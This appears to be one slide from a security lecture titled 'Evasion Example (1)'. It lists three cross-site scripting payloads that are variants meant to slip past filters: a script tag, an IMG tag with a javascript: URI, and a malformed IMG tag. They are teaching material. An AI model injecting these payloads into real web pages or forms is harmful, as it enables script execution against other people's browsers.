

# Evasion Example (1)
The following are version of the traditional attack:
<SCRIPT>alert("XSS")</SCRIPT>
Image Tag
<IMG SRC="javascript:alert('XSS');">
Malformed IMG Tag
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">